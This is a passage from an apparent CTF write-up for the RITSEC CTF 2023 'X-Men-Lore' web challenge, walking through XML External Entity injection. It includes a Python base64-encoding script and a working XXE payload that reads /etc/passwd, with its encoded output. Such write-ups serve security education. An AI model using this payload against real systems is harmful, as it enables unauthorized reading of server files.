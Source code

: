 That being said, we can try ***XXE (XML External Entity) injection***!

## Exploitation

But first, let's try to change the `<xmen>` element's value to anything and see what will happened:

**encode_xml.py:**
```py
#!/usr/bin/env python3

from base64 import b64encode

def main():
    payload = b'''<?xml version='1.0' encoding='UTF-8'?><input><xmen>anything</xmen></input>'''
    base64Encoded = b64encode(payload)
    print(base64Encoded.decode())

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/Web/X-Men-Lore)-[2023.04.01|14:33:49(HKT)]
└> python3 encode_xml.py
PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48aW5wdXQ+PHhtZW4+YW55dGhpbmc8L3htZW4+PC9pbnB1dD4=
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/RITSEC-CTF-2023/images/Pasted%20image%2020230401143529.png)

Cool! It's ***reflected to the response***!!

**With that said, we can craft a payload to display the file content of `/etc/passwd`:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<input>
    <xmen>&xxe;</xmen>
</input>
```

**What this payload does is we defined:**

-   The root element of the document is `root` (`!DOCTYPE root`)
-   Then, inside that root element, **we defined an external entity (variable) called `xxe`, which is using keyword `SYSTEM` to fetch file `/etc/passwd`**
-   Finally, we want to **use the `xxe` entity in `<xmen>` tag**, so we can see the output of `/etc/passwd`. To do so, we need to use `&entity_name;`

```py
    payload = b'''<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><input><xmen>&xxe;</xmen></input>'''
```

```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/Web/X-Men-Lore)-[2023.04.01|14:34:09(HKT)]
└> python3 encode_xml.py
PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz48IURPQ1RZUEUgcm9vdCBbIDwhRU5USVRZIHh4ZSBTWVNURU0gImZpbGU6Ly8vZXRjL3Bhc3N3ZCI+IF0+PGlucHV0Pjx4bWVuPiZ4eGU7PC94bWVuPjwvaW5wdXQ+
```
